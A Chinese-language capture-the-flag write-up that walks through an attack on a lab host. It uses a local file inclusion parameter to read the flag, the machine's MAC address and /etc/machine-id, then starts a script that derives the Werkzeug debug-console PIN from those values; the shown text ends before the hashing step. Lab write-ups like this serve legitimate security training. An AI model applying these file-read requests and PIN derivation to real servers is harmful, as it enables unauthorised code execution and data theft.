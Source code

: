 尝试读取 `flag.txt` 文件

```plaintext title="http://10.13.37.11:5000/file?filename=/home/aas/flag.txt"
AKERVA{IKNOW#LFi_@_}
```

```plaintext title="Flag
AKERVA{IKNOW#LFi_@_}
```

## Say Friend and Enter

在 nmap 扫描结果中，注意到

```plaintext
5000/tcp open  http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
| http-auth:
| HTTP/1.0 401 UNAUTHORIZED\x0D
|_  Basic realm=Authentication Required
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: Werkzeug/0.16.0 Python/2.7.15+
```

并且在 python 源码中注意到

```python
if __name__ == '__main__':
    print(app)
    print(getattr(app, '__name__', getattr(app.__class__, '__name__')))
    app.run(host='0.0.0.0', port='5000', debug = True)
```

服务开启了 debug 模式，也就说明存在 `/console` 路由

![img](img/image_20240315-001500.png)

根据目前已经得到的信息

```plaintext
username: ass
Werkzeug/0.16.0 Python/2.7.15+
```

同时借助任意文件读取，读取环境信息

```plaintext title="http://10.13.37.11:5000/file?filename=/sys/class/net/ens33/address"
00:50:56:b9:71:c8
```

```plaintext title="http://10.13.37.11:5000/file?filename=/etc/machine-id"
258f132cd7e647caaf5510e3aca997c1
```

然后通过 `Werkzeug 0.16.0` 源码中，关于 Debug Console Code 的计算部分，编写计算脚本

```python
import hashlib
from itertools import chain

probably_public_bits = [
    "aas",  # username
    "flask.app",  # modname
    "Flask",  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    "/usr/local/lib/python2.7/dist-packages/flask/app.pyc",  # getattr(mod, '__file__', None),
]

private_bits = [
    str(int("00:50:56:b9:71:c8".replace(":", ""), 16)),  # str(uuid.getnode()),  /sys/class/net/ens33/address
    "258f132cd7e647caaf5510e3aca997c1",  # get_machine_id(), /etc/machine-id
]

```
